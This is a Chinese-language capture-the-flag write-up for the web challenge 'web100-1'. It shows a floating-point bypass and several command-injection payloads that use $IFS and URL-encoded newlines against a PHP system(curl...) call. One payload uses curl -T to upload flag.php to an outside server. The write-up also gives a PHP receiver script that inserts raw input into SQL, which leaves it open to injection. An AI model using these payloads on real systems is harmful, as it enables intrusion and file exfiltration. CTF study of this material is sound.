 ## web100-1 WriteUp 

---------------  

#### 此题是全国大学生CTF联赛的真题 
对于题目的前半段：num中不含1却值等于1：
$num=0.9999999999999999999999999999999999999999999999  利用浮点数精度绕过

解题关键主要看题目的后半段 system(curl$cmd/flag);

读题可以知道$cmd不允许存在空格，要读取文件,必须要构造一个空格出来。

利用Shell 脚本中有个变量叫IFS(Internal Field Seprator 内部域分隔符)
```
$IFS相关：
可以使用命令“echo $IFS | od -b”查看一下IFS的内容：
   $ echo "$IFS" | od -b
   0000000 040 011 012 012
   0000004
其中"040"是" "，"011"是"\t"，"012"是"\n"，最后一个"012"是执行echo命令的时候加上的
```
最后 
```
$cmd=$IFS\file:///$PWD/flag.php
```
或者 
```
$cmd=$IFS\file:///var/www/html/exam/flag.php$IFS\    
$cmd=$IFS"file:///$PWD/"
$cmd=curl -T flag.php http://自己的服务器/getflag.php < ./flag.php
```
getflag.php 
```
   <?php
    $db = new mysqli('localhost', 'root', 'root', 'getflag');
    $t = file_get_contents('php://input');
    $db->query("INSERT INTO `getflag` (`flag`) VALUES('{$t}')");
    ?>
```
    
    我发现的:$cmd=$IFS\-x$IFS\wonderkun.cc$IFS\-T$IFS\flag.php$IFS\http
    
---
另一种做法可以绕过过滤 : 
`?num=0.99999999999999999&cmd=$1%09file://$PWD/getflag.php%0a1`

---
还有再来一种做法 : 
```
?num=0.99999999999999999&cmd=0%0als%0a0
?num=0.99999999999999999&cmd=0%0acat<getflag.php%0a0
```
